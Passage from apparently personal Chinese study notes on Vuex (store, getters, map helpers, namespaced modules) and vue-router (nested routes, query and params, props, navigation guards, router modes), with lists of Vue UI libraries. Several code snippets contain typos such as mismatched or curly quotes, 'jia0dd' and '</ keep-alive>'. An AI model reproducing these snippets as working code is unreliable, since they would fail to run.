>       const state = { }
>       
>       //创建store并暴露
>       export default new vuex.Store({
>           actions,
>           mutations,
>           state
>       })
>    
>       ```
>
>    3. 在main.js中创建vm时传入store配置项
>    
>       ```js
>       import App from './App.vue'
>       import store from '../store'
>       new Vue({
>         render: h => h(App),
>         store,//传入store配置项
>       }).$mount('#app')
>       ```

### 基本使用

> 1. 初始化数据、配置actions、配置mutations，操作文件store.js
>
>    ```vue
>    //count组件
>    <template>
>      <div>
>        <p>当前值是：{{ $store.state.sum }}</p>
>    
>        <select v-model.number="n">
>          <option value="1">1</option>
>          <option value="2">2</option>
>          <option value="3">3</option>
>        </select>
>    
>        <button @click="increment">+</button>
>        <button @click="decrement">-</button>
>        <button @click="incrementOdd">当前求和为奇数再加</button>
>        <button @click="incrementWait">等一等再加</button>
>      </div>
>    </template>
>    
>    <script>
>    export default {
>      data() {
>        return {
>          n: 1,
>        };
>      },
>      methods: {
>        increment() {
>          // this.$store.dispatch("jia", this.n);
>          this.$store.commit('JIA',this.n)
>        },
>        decrement() {
>          // this.$store.dispatch('jian',this.n)
>          this.$store.commit('JIAN',this.n)
>        },
>        incrementOdd() {
>          this.$store.dispatch('jiaOdd',this.n)
>        },
>        incrementWait() {
>          this.$store.dispatch('jiaWait',this.n) 
>        },
>      },
>    };
>    </script>
>    
>    <style>
>    button {
>      margin-left: 10px;
>    }
>    </style>
>    ```
>
>    ```js
>    //src/store/index.js
>    //该文件用于创建vuex中最为核心的store
>    //引入vue
>    import Vue from 'vue'
>    //引入vuex
>    import vuex from 'vuex'
>    
>    //应用vuex插件
>    Vue.use(vuex)
>    
>    //准备actions——用于响应组件中的动作
>    const actions = {
>        // jia(context, value) {
>        //     context.commit('JIA', value)
>        // },
>        // jian(context, value) {
>        //     context.commit('JIAN', value)
>        // },
>        jiaOdd(context, value) {
>            if (context.state.sum % 2 == 0) {
>                context.commit('JIAODD', value)
>            }
>        },
>        jiaWait(context, value) {
>            setTimeout(() => {
>                context.commit('JIAWAIT', value)
>            }, 500);
>        }
>    }
>    //准备mutations——用于操作数据（state）
>    const mutations = {
>        JIA(state, value) {
>            state.sum += value
>        },
>        JIAN(state, value) {
>            state.sum -= value
>        },
>        JIAODD(state, value) {
>            state.sum += value
>        },
>        JIAWAIT(state, value) {
>            state.sum += value
>        }
>    }
>    //准备state——用于存储数据
>    const state = {
>        sum: 0,
>    }
>    
>    //创建store并暴露
>    export default new vuex.Store({
>        actions,
>        mutations,
>        state
>    })
>    
>    ```
>
> 2. **组件中读取vuex中的数据:`this.$store.state.sum`**
>
> 3. **组件中修改vuex中的数据:`this.$store.dispatch('action中的方法名 ,数据)`或 `this.$store.commit('mutations中的方法名 ,数据)`**
>
> 4. 备注:若没有网络请求或其他业务逻辑，组件中也可以越过actions，即不写dispatch，直接编写commit

### getters的使用

> 1.概念:当state中的数据需要经过加工后再使用时，可以使用getters加工。**相当于计算属性**
>
> 2.在store.js中追加getters配置
>
> ```JS
> ......
> const getters = {
> 	bigSum(state){
> 		return state.sum*10
> 	}
> }
> 
> //创建并暴露store
> export default new Vuex.Store({
> 	.......
> 	getters
> })
> ```
>
> **3.组件中读取数据:`$store.getters.bigSum`**

### 四个map方法的使用

> 在使用之前要引入`import { mapState, mapGetters, mapMutations, mapActions } from "vuex";`
>
> 1. mapstate方法:用于帮助我们映射state中的数据
> 
>    ```js
>     computed:{
>    	//借助mapState生成计算属性，从state中读取数据。(对象写法)
>       // ...mapState({ he: "sum", xuexiao: "school", xueke: "subject" }),
>    
>        //借助mapState生成计算属性，从state中读取数据。(数组写法)
>        //使用此方法必须保证配置文件中和需要映射的文件的名称都是一致的
>        ...mapState(["sum", "school", "subject"]),
>    }
>    ```
> 
> 2. mapGetters方法:用于帮助我们映射 getters中的数据为计算属性
> 
>    ```js
>     computed:{
>        //借助mapGetters生成计算属性，从state中读取数据。(对象写法)
>       // ...mapGetters({ bigSum: "bigSum" }),
>    
>        //借助mapGetters生成计算属性，从state中读取数据。(数组写法)
>        ...mapGetters(["bigSum"]),
>    }
>    ```
> 
> 3. mapActions方法:用于帮助我们生成与actions对话的方法，即:包含`$store.dispatch(xxx)`的函数
> 
>    ```js
>     methods:{
>    	//借助mapActions生成对应的方法，方法中会调用dispatch去联系actions(对象写法)
>       ...mapActions({ incrementOdd: "jiaOdd", incrementWait: "jiaWait" }),
>        //借助mapActions生成对应的方法，方法中会调用dispatch去联系actions(数组写法)
>        // ...mapActions(["jiaOdd","jiaWait"])
>    }
>    ```
> 
> 4. mapMutations方法:用于帮助我们生成与mutations对话的方法，即:包含`$store.commit(xx)`的函数
> 
>    ```js
>     methods:{
>    	//借助mapMutations生成对应的方法，方法中会调用commit去联系mutations(对象写法)
>       ...mapMutations({ increment: "JIA", decrement: "JIAN" }),
>    
>        //借助mapMutations生成对应的方法，方法中会调用commit去联系mutations(数组写法)
>        // ...mapMutations(['JIA','JIAN']),
>    }
>    ```
> 
>    备注: **mapActions与mapMutations使用时，若需要传递参数需要:在模板中绑定事件时传递好参数，否则参数是事件对象。**
>    
>    注意：**mapState和mapGetters放在计算属性里面，mapActions和mapMutations放到方法里**

### 模块化+命名空间

> 1. 目的:让代码更好维护，让多种数据分类更加明确。 
>
> 2. 修改store.js
>
>    ```js
>    //该文件用于创建vuex中最为核心的store
>    //引入vue
>    import Vue from 'vue'
>    //引入vuex
>    import vuex from 'vuex'
>    
>    //应用vuex插件
>    Vue.use(vuex)
>    
>    const countOptions = {
>        namespaced: true,
>        actions: {...},
>        mutations: {...},
>        state: {...},
>        getters: {...}
>    }
>    const personOptions = {
>        namespaced: true,
>        actions: {...},
>        mutations: {...},
>        state: {...},
>        getters: {...}
>    }
>    
>    //创建store并暴露
>    export default new vuex.Store({
>        modules: {
>            countAbout: countOptions,
>            personAbout: personOptions
>        }
>    })
>    
>    ```
>
> 3. 开启命名空间后，组件中读取state数据:
>
>    ```js
>    //方式一:自己直接读取
>    this.$store.state.personAbout.list1
>    //方式二:借助mapState读取:
>    ...mapstate('countAbout',["sum",'school','subject']),
>    ```
>
> 4. 开启命名空间后，组件中读取getters数据:
>
>    ```js
>    //方式一:自己直接读取
>    this.$store.getters["personAbout/firstPersonName']
>    //方式二:借助mapGetters读取:
>    ...mapGetters("countAbout",['bigSum"])
>    ```
>
> 5. 开启命名空间后，组件中调用dispatch
>
>    ```js
>    //方式一:自己直接dispatch
>    this.$store.dispatch("personAbout/addPersonWang",person)
>    //方式二:惜助mapActions:
>    ...mapActions('countAbout',{incrementOdd:'jia0dd',incrementwait:'jiawait'})
>    ```
>
> 6. 开启命名空间后，组件中调用commit
>
>    ```js
>    //方式一:自己直接commit
>    this.$store.commit('personAbout/ADD_PERSON',person)
>    //方式二:借助mapMutations:
>    ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'})，
>    ```

# 第六章：vue-router

## 路由插件

>1. 基本使用
>
>      1. 安装vue-router，命令:`npm i vue-router`
>      
>      2. 应用插件:`Vue.use(VueRouter)`
>      
>      3. 编写router配置项: 
>
>    ```js
>    import VueRouter from 'vue-router'
>    
>    import vue from 'vue'
>    
>    vue.use(VueRouter)
>    
>    import about from '../components/about.vue'
>    import home from '../components/home.vue'
>    
>    export default new VueRouter({
>        routes: [
>            {
>                path: '/about',
>                component: about
>            },
>            {
>                path: '/home',
>                component: home
>            }
>        ]
>    })
>    ```
>
> 2. 实现切换(`active-class`可配置高亮样式)
>
>    ```html
>    //active-class表示点击给谁添加一个active类
>    <router-link active-class="active" to=" /about">About</router-link>
>    ```
>
> 5. 指定展示位置
>
>    ```html
>    <router-view></router-view>
>    ```
>
>7. 几个注意点：
>
>    1. 路由组件通常存放在pages文件夹，一般组件通常存放在components文件夹。
>    2. 通过切换，“隐藏"了的路由组件，默认是被销毁掉的，需要的时候再去挂载。
>    3. **每个组件都有自己的`$route` 属性，里面存储着自己的路由信息。**
>    4. **整个应用只有一个router，可以通过组件的`$router`属性获取到。**

## 重定向

> 想将login组件作为根目录，可以重写根路径
>
> 

## 嵌套路由(多级路由)

> route规则中，B组件在A组件的children下，那么B组件就在A组件中显示。如果访问的路径分为好几级(/#/main/B)那么B组件route规则中path不需要加/，如果/#/B，在route规则中path需要加/
>
> 如果B组件不在A组件的children下面，那么B组件需要写全路径

> 1. 配置路由规则，使用children配置项:
>
>    ```js
>    routes: [
>            {
>                path: '/about',
>                component: about
>            },
>            {
>                path: '/home',
>                component: home,
>                children: [//通过children配置子级路由
>                    {
>                        path: 'message',//此处一定不要写：/message。也可以写成/home/message
>                        component: message,
>                    },
>                    {
>                        path: 'news',//此处一定不要写：/news。也可以写成/home/news
>                        component: news,
>                    },
>    
>                ]
>            }
>        ]
>    ```
>
> 2. 跳转(要写完整路径)∶
>
>    ```js
>    <router-link to="/home/news" >News</router-link>
>    ```
>

## 路由的query参数

> 1. 传递参数
>
>    ```html
>    <!-- 跳转路由并携带query参数，to的字符串写法 -->
>    <!-- <router-link :to="`/home/message/detail?id=${t.id}&title=${t.title}`">{{ t.title }}</router-link> -->
>    
>    
>    <!-- 跳转路由并携带query参数，to的对象写法（推荐） -->
>    <router-link
>       :to="{
>         path: '/home/message/detail',
>         query: {
>           id: t.id,
>           title: t.title,
>         },
>        }"
>    >{{ t.title }}</router-link>
>    ```
>
> 2. 接收参数:
>
>    ```js
>    <h2>{{$route.query.id}}</h2>
>    <h2>{{$route.query.title}}</h2>
>    ```

## 命名路由

> 1. 作用:可以简化路由的跳转。
>
> 2. 如何使用
>
>    1. 给路由命名:
>
>       ```js
>       {
>       	path:"/demo',
>       	component:Demo,
>       	children:[
>       		{
>       			path:'test',
>       			component:Test,
>       			children:[
>       				{
>       					name:'hello’//给路由命名
>       					path:"welcome",
>       					component:Hello,
>       				}
>       			]
>       		}
>       	]
>       }
>       ```
>
>    2. 简化跳转:
>
>       ```js
>       <!--简化前，需要写完整的路径-->
>       <router-link to="/demo/test/welcome">跳转</router-link>
>       
>       <!--简化后，直接通过名字跳转-->
>       <router-link :to="{name:"hello'}”>跳转</router-link>
>       
>       <!--简化写法配合传递参数-->
>       <router-link
>       	:to="{
>       		name:'hello',
>       		query:{
>       			id:666,
>       			title:'你好'
>       		}
>       	}"
>       >跳转</router-link>
>       ```

## 路由的params参数

> 1. 配置路由，声明接收params参数
>
>    ```js
>    routes: [
>            {
>                path: '/home',
>                component: home,
>                children: [
>                    {
>                        path: 'news',
>                        component: news,
>                    },
>                    {
>                        path: 'message',
>                        component: message,
>                        children: [
>                            {
>                                name: 'xiangqing',
>                                path: 'detail/:id/:title',//使用占位符声明接收params参数
>                                component: detail
>                            }
>                        ]
>                    },
>    
>                ]
>            }
>        ]
>    ```
>
> 2. 传递参数
>
>    ```vue
>    <!-- 跳转路由并携带params参数，to的字符串写法 -->
>    <!-- <router-link :to="`/home/message/detail/${t.id}/${t.title}`">{{ t.title }}</router-link> -->
>    
>    <!-- 跳转路由并携带params参数，to的对象写法 -->
>    <router-link
>    	:to="{
>    		name:'xiangqing',//使用params时，必须使用name属性，不可以使用path
>    		params:{
>    			id:t.id,
>    			title:'t.title'
>    		}
>    	}"
>    >跳转</router-link>
>    ```
>    
> 3. 接收参数
>
>    ```vue
>    <h2>{{$route.params.id}}</h2>
>    <h2>{{$route.params.title}}</h2>
>    ```
>
> - **特别注意:路由携带params参数时，若使用to的对象写法，则不能使用path配置项，必须使用name配置!**

## 路由的props配置

> 作用:让路由组件更方便的收到参数

```js
{
	//当前在detail组件中使用的props配置，只要在detail组件中调用id，title就可以访问到值（方法三）
    name: 'xiangqing',
    path: 'detail',
    component: detail,

    // props的第一种写法，值为对象，该对象中的所有key-value都会以props的形式传给detail组件
    // props:{a:1,b:2}

    // props的第二种写法，值为布尔值，若布尔值为真，就会把该路由组件收到的所有params参数，以props的形式传给detail组件
    // props: true

    // props的第三种写法，值为函数,query和params都可用
    // props($route){
    //     return {id:$route.query.id,title:$route.query.title}
    // }
    //第三种的简写。连续解构赋值
    props({ query: { id, title } }) {
    return { id, title }
  }
}
```

```js
<template>
  <ul>
    <li>消息id：{{id }}</li>
    <li>消息标题：{{ title }}</li>
  </ul>
</template>

<script>
export default {
  props:['id','title']
};
</script>
```

## \<router- link>的replace属性

> 1. 作用:控制路由跳转时操作浏览器历史记录的模式
> 2. 浏览器的历史记录有两种写入方式:分别为push和replace，push是追加历史记录，replace是替换当前记录。路由跳转时候默认为push
> 3. 如何开启replace模式:`<router-link replace  ..... ..>News</router-link>`

## 编程式路由导航

> 1. 作用:不借助\<router-link>实现路由跳转，让路由跳转更加灵活
>
> 2. 具体编码:
>
>    ```js
>    //在<router- link>的to属性中怎么写这里`{}`里面就怎么写
>    //也可以写this.$router.push('/path'),to中也是可以直接写路径的啊
>    this.$router.push({
>        	name: "xiangqing",
>            query: {
>                id: t.id,
>                title: t.title,
>            },
>    	});
>    
>    this.$router.replace({
>            name: "xiangqing",
>            query: {
>                id: t.id,
>                title: t.title,
>            },
>        });
>    
>    this.$router.forward()//前进
>    this.$router.back()//后退
>    this.$router.go(2)//-2为后退两步，2为前进两步
>    ```

## 缓存路由组件

> 1. 作用:让不展示的路由组件保持挂载，不被销毁（路由组件跳转后，前者就被销毁了。）
>
> 2. 具体编码:
>
>    ```html
>    <keep-alive include="News "><!--News是组件名-->
>    <!--<keep-alive :include="['News','Message'] ">--><!--多个就写成数组-->
>    	<router-view></router-view>
>    </ keep-alive>
>    ```

## 两个新的生命周期钩子

> 1. 作用:路由组件所独有的两个钩开用于捕获路由组件的激活状态。
> 2. 具体名字:
>    1. activated路由组件被激活时触发。
>    2. deactivated路由组件失活时触发。

## 路由守卫

> 1. 作用:对路由进行权限控制
>
> 2. 分类:全局守卫、独享守卫、组件内守卫
>
> 3. 全局守卫、独享守卫
>
>    ```js
>    import VueRouter from 'vue-router'
>    
>    import about from '../pages/about.vue'
>    import home from '../pages/home.vue'
>    import message from '../pages/message.vue'
>    import news from '../pages/news.vue'
>    import detail from '../pages/detail.vue'
>    
>    const router = new VueRouter({
>        routes: [
>            {
>                name: 'guanyu',
>                path: '/about',
>                component: about,
>                meta: { title: '关于' },
>            },
>            {
>                name: 'shouye',
>                path: '/home',
>                component: home,
>                meta: { title: '首页' },
>                children: [
>    
>                    {
>                        name: 'xinwen',
>                        path: 'news',
>                        component: news,
>                        meta: { isAuth: true, title: '新闻' },
>                        //独享守卫
>                        // beforeEnter: (to, from, next) => {
>                        //     // if (to.path === "/home/message" || to.path === "/home/news") {
>                        //     // if (to.name === "xiaoxi" || to.name === "xinwen") {
>                        //     if (to.meta.isAuth) {
>                        //         if (localStorage.getItem('people') === 'lz') {
>                        //             next()
>                        //         } else {
>                        //             alert("你无权查看")
>                        //         }
>                        //     } else {
>                        //         next()
>                        //     }
>    
>                        // },
>                    },
>                    {
>                        name: 'xiaoxi',
>                        path: 'message',
>                        component: message,
>                        meta: { isAuth: true, title: '消息' },
>                        children: [
>                            {
>                                name: 'xiangqing',
>                                path: 'detail',
>                                component: detail,
>                                meta: { title: '详情' },
>    
>                                // props的第三种写法，值为函数,query和params都可用
>                                props($route) {
>                                    return { id: $route.query.id, title: $route.query.title }
>                                }
>    
>                            }
>                        ]
>                    },
>    
>                ]
>            }
>        ]
>    })
>    
>    //全局前置路由守卫————初始化的时候被调用、每次路由切换之前被调用
>    router.beforeEach((to, from, next) => {
>        // if (to.path === "/home/message" || to.path === "/home/news") {
>        // if (to.name === "xiaoxi" || to.name === "xinwen") {
>        if (to.meta.isAuth) {//判断当前路由是否需要进行权限控制
>            if (localStorage.getItem('people') === 'lz') {//权限控制的具体规则
>                next()//放行
>            } else {
>                alert("你无权查看")
>            }
>        } else {
>            next()
>        }
>    
>    })
>    
>    //全局前置路由守卫————初始化的时候被调用、每次路由切换之后被调用
>    router.afterEach((to,from)=>{
>        if(to.meta.title){
>            document.title = to.meta.title//修改网页的title
>        }else{
>            document.title = 'lz'
>        }
>    })
>    
>    export default router;
>    ```
>
> 4. 组件内守卫:
>
>    > 要为守卫的这个组件设置meta:{isAuth:true}
>
>    ```js
>    //进入守卫:通过路由规则,进入该组件时被调用
>    beforeRouteEnter (to，from,next){...},//内部内容和全局内置守卫一样
>    //离开守卫:通过路由规则，离开该组件时被调用
>    beforeRouteLeave (to，from,next) {...}
>    ```

## 路由器的两种工作模式

> 1. 对于一个url来说，什么是hash值?——#及其后面的内容就是hash值。
> 2. hash值不会包含在HTTP请求中，即:hash值不会带给服务器。
> 3. hash模式:
>    1. 地址中永远带着#号，不美观。
>    2. 若以后将地址通过第三方手机app分享，若app校验严格，则地址会被标记为不合法。
> 3. 兼容性较好。
>    
> 4. history模式:
>    1. 地址干净，美观。
>    2. 兼容性和hash模式相比路式
>    3. 应用部署上线时需要后端人员支持，解决刷新页面服务端404的问题。

# **第 七章：Vue UI 组件库** 

## **7.1 移动端常用 UI 组件库** 

1. Vant https://youzan.github.io/vant 

2. Cube UI https://didi.github.io/cube-ui 

3. Mint UI http://mint-ui.github.io 

## **7.2 PC 端常用 UI 组件库** 

1. Element UI https://element.eleme.cn 
2. Ant Design Vue https://www.antdv.com/
2. IView UI https://www.iviewui.com

# Vue2项目

## 登录token验证

> 登录时获取token，在全局前置守卫判断sessionStorage中的token是否为空，每次请求在请求头中添加token，在后端验证


## elementUI文件配置

> elementUI单独放在一个文件中，然后再main.js中引入
>
> 

## 全局css文件

> 全局css文件单独放在一个文件中，然后再main.js中引入
>
> 

## 第三方图标库

> 借用第三方图标库，阿里图标库，下载后在mian.js中引入```import 'xxx.css'```
>
> 

## ajax请求

>ajax请求的两种写法：尚硅谷和黑马的
>
>
>
>

## home组件侧边框路由

> 

## scope.row

> 获取用户列表时使用scope.row可以获取一行的数据
>
> 

## 其他

> 第三方的树形表格vue-table-with-tree-grid
>
> 富文本编辑器vue-quill-editor
>
> 深度拷贝lodash    cloneDeep深度拷贝     merge合并
>
> 图表视图ECharts
>
> 移除发布环境中的console    babel-plugin-transform-remove-console

## 生成项目打包报告

> 
>

## 路由[懒加载](https://router.vuejs.org/zh/guide/advanced/lazy-loading.html#%E6%8A%8A%E7%BB%84%E4%BB%B6%E6%8C%89%E7%BB%84%E5%88%86%E5%9D%97)

> 把不同路由对应的组件分割成不同的代码块，然后当路由被访问的时候才加载对应组件，这样就更加高效了。
>
> 使用的是 Babel，需要将添加 [`syntax-dynamic-import` ](https://babeljs.io/docs/plugins/syntax-dynamic-import/)插件，才能使 Babel 可以正确地解析语法。
>
> 
>

## 上线

> 
>
> 
>
> #### 开启gzip
>
> 
>
> 
>
> 

# [TS+Vue3](./ts+vue3.md)


